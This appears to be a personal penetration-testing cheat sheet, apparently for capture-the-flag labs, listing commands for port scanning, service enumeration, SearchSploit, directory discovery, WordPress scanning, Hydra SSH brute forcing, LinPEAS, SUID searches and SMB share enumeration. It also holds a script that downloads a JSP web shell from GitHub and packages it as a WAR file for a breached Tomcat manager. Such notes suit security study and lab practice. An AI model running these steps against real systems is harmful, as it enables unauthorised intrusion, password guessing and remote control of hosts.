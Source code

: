 # Starting Penetration

```msfconsole```

To Open metasploit console

## Port Scan

```nmap IP -sV -sC -p- --min-rate 20000```

alternate

```nmap IP -T4 -A -v```

-p- to scan all ports

20k rate probably way too high. Reduce to reduce risk of alerting firewall.

-sS for TCP SYN Scan

-sV to show services related to each port


### Get Version of Service

NetCat

```nc IP PORT```


### Find Exploits with SearchSploit

```searchsploit servicename version```

### Add new modules to metasploit from exploit-db

Get path from searchsploit

```curl http://www.exploit-db.com/download/ID  /root/.msf4/modules/exploits/custom/CUSTOMFILENAME```



### Metadata

```exiftool file```

### Web Server:


#### Directory Discovery

Word lists are at `/usr/share/wordlists` (In KALI)

```gobuster dir -u URL:port -t threads -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt```

#### Replicate website on local storage

```wget http://ip/ -r```

#### Wordpress vulnerability checker

```wpscan --url URL```

--plugin-detection aggressive    -   Takes a long time, but digs up good dirt


## SSH

### SSH with RSA file

```ssh -i /path/to/file user@IP```


#### Brute Forcing Passwords

```hydra -l USER -P /path/to/wordlist ssh://IP```

https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials


## Apache

### After /manager breach

#### Make Offensive WAR file

```
#!/bin/sh
wget https://raw.githubusercontent.com/tennc/webshell/master/jsp/jspbrowser/Browser.jsp -O index.jsp
rm -rf wshell
rm -f wshell.war
mkdir wshell
cp index.jsp wshell/
cd wshell
jar -cvf ../wshell.war *
```



## Attempt to Elevate permissions after entry

##### Run Inside of Meterpreter

```run post/multi/recon/local_exploit_suggester```

Gives readout of possible vulnerabilities of connected host

### NFS (RPCBIND?)

Enumerate NFS shares.

```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.223.98```



### Linux Specific

whoami

#### LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```scp /home/mike/linpeas.sh USER@IP:/home/USER```
```./linpeas.sh```

#### Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```find / -perm -u=s -type f 2>/dev/null```



### Samba share

##### Quick Enumeration

```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP```

Change port to match nmap results. (Usually 139 or 445)

##### Deep Enumeration

```enum4linux -a IP | tee enum4linux.log```


#### Inspect Samba Share

```smbclient //ip/sambashare```


#### Recursively download the SMB share

```smbget -R smb://ip/sambashare```

